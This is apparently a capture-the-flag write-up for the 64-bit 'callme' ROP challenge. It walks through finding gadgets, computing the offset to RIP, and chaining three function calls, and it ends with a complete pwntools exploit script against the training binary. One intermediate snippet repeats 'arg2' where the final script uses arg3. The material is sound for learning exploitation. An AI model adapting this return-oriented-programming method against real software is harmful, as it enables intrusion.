

# Callme 64 bit Writeup

From challenge description
> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

---
### Exploitation Path
1. Find ROP gadgets
2. Find Offset to RIP
3. Find function addresses

#### Finding the gadgets
We are gonna use pwntools to find the required rop gadgets. we have to call a functions with 3 arguments, therefore we will need the following registers
- `rdi`
- `rsi`
- `rdx`
The full rop gadget is `pop rdi; pop rsi; pop rdx; ret`

Using pwntools to find gadget
```python
rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]
```
#### Finding the offset to RIP

Create de bruijn sequence
```sh
ragg2 -P 200 -r
```

copy output then run program with r2 debugger



offset to rbp = 32

offset to rip = rbp + 8 = 40

#### Finding function addresses
Use pwntools to easily find the function addresses

```python
func1 = elf.sym['callme_one']
func2 = elf.sym['callme_two']
func3 = elf.sym['callme_three']
```

---


### Developing Payload

The payload following this :
- junk *  offset_to_rip
- rop_gadget
- function_args
- function

```python
payload = cyclic(offset) 
payload += rop_gadget
payload += arg1, arg2, arg2
payload += elf.sym['callme_one']
```

### Final Script

```python
#!/bin/python3
from pwn import *
import sys

binary = "./callme"
elf = context.binary = ELF(binary, False)
context.terminal = ["terminator", "-x", "bash", "-c"]
context.log_level  = 'debug'
libc = elf.libc
rop = ROP(elf)

#### GDB Script
script = '''

'''
def start(*args, **kwargs):
    usage = f"{sys.argv[0]} gdb \nor \n{sys.argv[0]} remote"
    # [ip, port]
    REMOTE = []
    if args:
        arguments = list(args)
        arguments.insert(0, elf.path)
        return process(arguments)

    if not args and not kwargs:
        if len(sys.argv) > 1:
            if sys.argv[1] == 'gdb':
                return gdb.debug(elf.path, gdbscript=script)
            elif sys.argv[1] == 'remote':
                return remote(REMOTE[0], REMOTE[1])
            else:
                print("INVALID ARGUMENT")
                print(usage)
                sys.exit(0)
        else:
            return process(elf.path)

def main():
    ### MAIN CODE HERE
    arg1, arg2, arg3 = 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d
    
    ## rop gadget
    gadget = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]
    offset = 40 # offset to rip
    payload = flat(
        cyclic(offset),
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_one'],
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_two'],
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_three']
    )

    io = start()
    io.recvuntil('> ')
    io.sendline(payload)
    io.interactive()
if __name__ == "__main__":
    main()
```

